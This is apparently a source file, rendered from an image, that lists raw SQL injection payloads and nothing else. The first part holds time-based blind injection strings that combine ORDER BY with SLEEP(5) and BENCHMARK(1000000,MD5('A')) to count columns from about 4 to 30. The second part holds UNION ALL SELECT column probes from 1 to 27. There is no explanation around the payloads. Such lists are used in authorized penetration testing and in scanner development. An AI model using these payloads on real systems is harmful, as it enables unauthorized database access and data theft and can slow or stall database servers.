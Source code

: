 ```
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 UNION ALL SELECT 1,2,3,4,5,6,7,8
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
```